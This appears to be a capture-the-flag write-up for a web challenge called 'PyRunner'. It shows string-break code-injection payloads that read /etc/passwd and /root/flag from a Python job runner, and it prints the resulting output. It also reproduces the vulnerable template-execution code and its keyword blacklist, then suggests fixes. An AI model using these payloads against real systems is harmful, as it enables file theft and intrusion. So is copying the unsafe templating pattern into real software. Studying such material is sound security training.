




# PyRunner

### Description

Can you help us test our internal Python job runner prototype?

# Solution

## 1. Injection

Hmm Templating of the title, I wonder what I can inject in it

<!--![[Web/PyRunner/1.png]]-->


## 2. Inject Code - Read File

Lets try OS command injection

```
START");import os;os.system("ls");print("END
```

Oh some replacing is done. Especially on semicolons and `os`

Output

```python
  File "/app/scripts/388177.py", line 11
    print("Webserver: START") .system("ls")print("END")
                                           ^^^^^
SyntaxError: invalid syntax
```


Trying another payload

```
START" + open("/etc/passwd").read() + "END
```

Output - And with this I have achieved arbituary file read


```
Webserver: STARTroot:x:0:0:root:/root:/bin/ash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
man:x:13:15:man:/usr/man:/sbin/nologin
postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin
squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin
xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
cyrus:x:85:12::/usr/cyrus:/sbin/nologin
vpopmail:x:89:89::/var/vpopmail:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
www:x:1000:1000:1000:/home/www:/bin/sh
END
Hello!
```

## 3. Retrieving Flag

Lets check the Dockerfile again

```dockerfile
FROM python:3.10.8-alpine3.16

RUN adduser -D -u 1000 -g 1000 -s /bin/sh www

RUN apk add --update --no-cache gcc musl-dev

WORKDIR /app
COPY app /app

COPY flag /root/flag

COPY config/readflag.c /
RUN gcc -o /readflag /readflag.c && chmod 4755 /readflag && rm /readflag.c

RUN pip install -r requirements.txt

CMD ["python3", "app.py"]
```

Need to run the `/readflag` binary? Just kidding. Just read `/root/flag directly`

```python
START" + open("/root/flag").read() + "END
```

<!--![[Web/PyRunner/2.png]]-->


<!--![[Web/PyRunner/3.png]]-->



### 4. Where this wont work

**Injection**

I didn't really read the code while doing this challenge, but here's the vulnerable code

```python
@app.post('/run-template')
async def run_template(request: Request):
    data = await request.json()
    template = scripts[data['template']]
    with open(f'scripts/{template["file"]}', 'r') as file:
        contents = file.read()
        print(data)
        for argument in template['arguments']:
            contents = contents.replace(f'<{argument}>', textfilter(data['arguments'][argument]))
        filename = f'{random.randint(100000, 999999)}.py'
        with open(f'scripts/{filename}', 'w') as newfile:
            newfile.write(contents)
        output = subprocess.run(['python', f'scripts/{filename}'], capture_output=True, text=True)
        # check if output has error
        if output.stderr:
            return JSONResponse({'output': output.stderr})
        return JSONResponse({'output': output.stdout})  
```

Either way these lines are dangerous, as user input is templated into running code with filter.

```python
data = await request.json()
template = scripts[data['template']]
...
for argument in template['arguments']:
	contents = contents.replace(f'<{argument}>', textfilter(data['arguments'][argument]))
	filename = f'{random.randint(100000, 999999)}.py'
	with open(f'scripts/{filename}', 'w') as newfile:
		newfile.write(contents)
	output = subprocess.run(['python', f'scripts/{filename}'], capture_output=True, text=True)
```

But the filter is not good enough. It doesn't disallow the escape characters `"` which are arguably the most important. Either way a blacklist is not a good idea, as there may be new ways to bypass it, so this should be changed to a whitelist whenever possible.

```python
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
...
def textfilter(text):
    for i in disallowed:
        if i in text:
            text = text.replace(i, "")
    return text
```

**File Read**

This wont work if the `/root/flag` text file has its permissions properly set to prevent read. This could be done by adding a `chmod` command to the Dockerfile

```
RUN chmod 700 /root/flag # Read, Run Execute by owner
```

The Docker container user should also have their permissions set properly (eg. setting something to not root, something I didn't see in the docker file). We could add something like this to the Dockerfile [\*](https://docs.docker.com/engine/reference/builder/#user)

```dockerfile
...
# Setup default user, when enter docker container  
USER www # ${UID}:${GID}
CMD ["python3", "app.py"]
```

However, in this case, the file read worked, so alls good

# Flag

`STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}`
 
Ooh nice I'm the top 5th solver

<!--![[score.png]]-->

